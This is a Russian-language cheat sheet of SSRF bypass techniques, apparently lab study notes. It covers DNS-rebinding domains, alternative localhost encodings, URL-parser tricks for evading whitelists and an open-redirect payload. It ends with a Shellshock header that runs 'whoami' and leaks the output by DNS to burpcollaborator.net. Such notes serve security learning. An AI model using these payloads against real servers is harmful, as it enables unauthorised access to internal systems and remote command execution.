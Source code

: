 ## Введение

**Подделка запросов на стороне сервера (SSRF)** — это критическая уязвимость безопасности, позволяющая злоумышленникам манипулировать запросами на стороне сервера и потенциально получать доступ к конфиденциальным ресурсам или выполнять вредоносные действия.

Шаблоны атак: [PayloadsAllTheThings/Server Side Request Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

---

## Обход защиты чёрного списка

---

#### DNS rebinding

- `make-1.2.3.4-rebind-127.0-0.1-rr.1u.ms` 
  > Здесь можно менять "1.2.3.4" и "127.0.0.1" на любой другой. Резолвится в:
  > 1. 172.?.?.?
  > 2. 1.2.3.4
  
-  `double.terjanq.me`
  > Резолвится в:
  > 1. 127.0.0.1
  > 2. 51.38.138.162
- `7f000001.2223367c.rbndr.us`  
  >  Здесь адреса представлены в 16и-ричном виде в саб-доменах. Резолвится в:
  >  1. 127.0.0.1
  >  2. 34.35.54.124
- `spoofed.burpcollaborator.net` 
  > резолвится в 
  > 1. 127.0.0.1

DNS rebinding attack framework: [nccgroup/singularity](https://github.com/nccgroup/singularity)

---

#### Альтернативное представление IP-адреса

127.0.0.1:
1. 2130706433 - десятичная система счисления
2. 017700000001
3. 127.1
4. spoofed.burpcollaborator.net
5. localhost
6. 0177.0.0.1
7. \[::ffff:127:0:0:1]
8. 0.0.0.0

Инструмент для получения альтернативных представлений IP адреса: [IPFuscator](https://github.com/vysecurity/IPFuscator)

---

#### Другие варианты

1. URL-кодировки и разные варианты регистра
2. Замена https на http и наоборот

---

## Обход защиты белого списка

---

##### Вставка учётных данных в URL-адрес перед именем хоста, используя символ `@`

1. https://`ожидаемый-хост:какойтоПароль@`зловредный-хост

---

##### Использование символа `#` для обозначения якоря в URL

1. https://зловредный-хост`#ожидаемый-хост`

---

##### Использование иерархии DNS-имён, чтобы поместить необходимые входные данные в полное DNS-имя, которым можно управлять

1. https://`ожидаемый-хост.`зловредный-хост

---

##### URL кодировки

---

##### Всё вместе

1. http://localhost:80#@stock.weliketoshop.net/admin

---

##### Open redirect
`stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=1%26path=`http://192.168.0.68/admin

---

## Blind SSRF

Подробнее: [PayloadsAllTheThings/SSRF#Bliend SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#blind-ssrf)

#### Shell Shock
User-Agent: `() {:;}; $(whoami).burpcollaborator.net`
Referer: `http://192.168.0.$1$`